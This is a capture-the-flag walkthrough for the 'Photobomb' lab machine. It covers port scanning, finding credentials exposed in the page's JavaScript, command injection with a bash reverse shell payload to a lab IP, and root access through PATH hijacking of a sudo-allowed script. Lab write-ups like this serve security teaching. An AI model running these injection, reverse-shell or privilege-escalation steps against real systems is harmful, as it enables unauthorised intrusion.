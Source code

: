 # Photobomb

## Nmap scan
<br>

```bash
sudo nmap -sS --min-rate 5000 -p- -Pn -n -vvv --open 10.10.11.182
```
![image](./images/nmapsS.png)
```bash
nmap -sCV -p 22,80 10.10.11.182 -oN nmap
```
![image](./images/nmapsCV.png)

We have two ports open: 22 (ssh) and 80 (http)

<br>

## Web exploitation
<br>
The website has a basic http auth for accesing the printer functionality.

![image](./images/webAuth.png)

We can find the credentials in plain text in the javascript of the web page.

![image](./images/webCreds.png)

In the printer section we can select the file type and the dimensions of the file we want to download. If we intercept the traffic with burp, and include a null byte in one of the parameters, we can produce an error.

![image](./images/webRequest.png)
![image](./images/webError.png)

We can see that the error shows the source code of the program. The program executes a command to resize an image if the image doesn't already exists. So we can use inject commands to get RCE on the machine.
We use the following payload to try to get a reverse shell.

```bash
;bash -c 'bash -i >& /dev/tcp/10.10.14.99/1234 0>&1'
```
![image](./images/reverseRequest.png)
![image](./images/reverseShell.png)

<br>

## Privesc

<br>

Executing sudo -l we see that we can run as root and set the environment variables of the command /opt/cleanup.sh
![image](./images/sudol.png)

We can abuse this by using path hijacking, we can provide a new PATH variable to execute a script that we control if the cleanup.sh script doesn't use the full path of the binary.
![image](./images/cleanup.png)

For example we can use the command find because it doesn't use the full path of the binary.

![image](./images/find.png)

We create a find script on /tmp to later add the /tmp folder to the path and execute the find script that we control first. We execute the following command changing the PATH to PATH=/tmp:/bin and we get a shell as root.

```bash
sudo -E PATH=/tmp:/bin /opt/cleanup.sh
```

![image](./images/root.png)